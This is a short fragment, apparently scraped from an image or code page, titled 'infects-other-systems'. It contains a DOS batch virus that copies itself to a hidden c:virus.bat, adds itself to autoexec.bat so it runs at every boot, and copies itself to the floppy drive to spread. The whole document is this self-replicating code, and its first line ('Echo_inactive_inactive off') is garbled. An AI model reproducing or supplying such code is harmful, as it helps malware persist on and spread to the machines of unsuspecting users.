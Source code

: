 # infects-other-systems
[SRC] Echo_inactive_inactive off copy %0 c:virus.bat >nul attrib +h c:virus.bat >nul echo c:virus.bat>>c:autoexec.bat copy %0 a:run.bat >nul [/SRC]
